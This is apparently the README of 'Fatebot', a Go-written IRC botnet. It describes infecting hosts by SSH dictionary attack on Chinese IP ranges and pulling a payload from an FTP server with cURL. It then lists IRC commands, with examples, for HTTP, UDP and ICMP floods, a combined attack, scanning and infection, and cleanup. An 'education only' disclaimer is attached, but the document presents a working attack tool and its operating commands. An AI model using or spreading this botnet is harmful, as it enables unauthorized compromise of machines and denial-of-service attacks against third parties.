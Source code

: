 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<img src="img/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood. so DDoS function is really hard and challenge for me.

<img src="img/udptraffic.png" alt="udp flood, dos example">

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com</li>
      <p>- Flood HTTP get request to target.</p>
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      <p>- Flood UDP packets by random src and dst port to target. 
      - Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      <p>- Flood ICMP with large packets to target.</p>
    </ul>
</ul>

<ul>
  <li><strong>?fate [url]</li></strong>
    <ul>
      <li>?fate https://target.com</li>
      <p>- Use all DDoS function to attack target.</p>
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      <p>- Scan CHN ip range on SSH port and get payload with cURL.</p>
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      <p>- Remove payload on bot machine and left the server.</p>
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      <p>- Stop ddos attacking.</p>
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      <p>- Stop scanning.</p>
    </ul>
</ul>
